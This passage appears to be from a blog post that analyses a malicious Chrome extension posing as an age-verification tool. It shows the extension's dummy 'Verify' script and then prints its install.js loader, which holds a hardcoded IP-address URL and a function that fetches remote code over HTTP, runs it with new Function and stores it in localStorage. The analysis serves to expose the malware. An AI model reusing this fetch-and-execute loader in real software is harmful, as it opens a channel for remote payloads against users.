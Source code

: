 {% highlight javascript linenos %}
document.querySelector('#submit').addEventListener('click', function() {
	document.querySelector('#box').hidden = true;
	document.querySelector('#loading').hidden = false;
	
	setTimeout(function() {
		document.querySelector('#loading').hidden = true;
		document.querySelector('#done').hidden = false;
	}, (randomIntFromInterval(0, 2) / 2 + 0.5) * 1000);
});
{% endhighlight %}

Yes, you're reading this right. If you click "Verify" it will display "Loading..." and idle for a random amount of time, and then say "Done". It doesn't do anything; the age verification is a dummy.

So what is it hiding? The extension runs two more scripts, namely `query-string.js` and `install.js`. Let's see what's going on in those.

## What is it actually doing?

### Fetching a remote payload
The `query-string.js` script isn't of much interest, as it's just a copy of [this <abbr title="Node Package Manager">NPM</abbr> package](https://github.com/sindresorhus/query-string).

*But you'll never believe what install.js does! Line 133 will surprise you.* (It hurt me a little bit on the inside to write a sentence like that.)

Among the first lines of `install.js` is this eye-striking line:

{% highlight javascript %}
var programUrl = 'http://104.131.35.136:9999/jsnew.php?id=22';
{% endhighlight %}

It's a hardcoded variable for an external server on which to fetch scripts (also it doesn't even have the courtesy to do it over HTTPS. Bonus <abbr title="Man In The Middle">MITM</abbr> attacks yay!).

*Spoiler alert*: The script that it fetches from the above server is a malware payload. The extension needs to download it after having been installed because it cannot ship with the payload if it wants to pass through the Chrome Webstore's security checks.

It fetches a script from the server, stores it in localStorage and executes it. We can see this happening in the `getProgram()` function.

{% highlight javascript linenos %}
function getProgram(event) {
	var xhr = new XMLHttpRequest();
	var url = programUrl;
	var querySign = url.indexOf('?') === -1 ? '?' : '&';
	
	url += querySign + 'r=' + Date.now();
	
	xhr.open('GET', url, true);
	xhr.setRequestHeader('XYZ-Extension-Id', chrome.runtime.id);
	
	xhr.onload = function() {
		var code = xhr.response;
		
		try {
			var fn = new window['Function'](code);
			console.log('Executing loaded code');
			fn(); // exit if error
	
			localStorage.setItem('localCode', code);
		} catch (e) {
			console.error(e);
		}
		
		xhr.send();
	}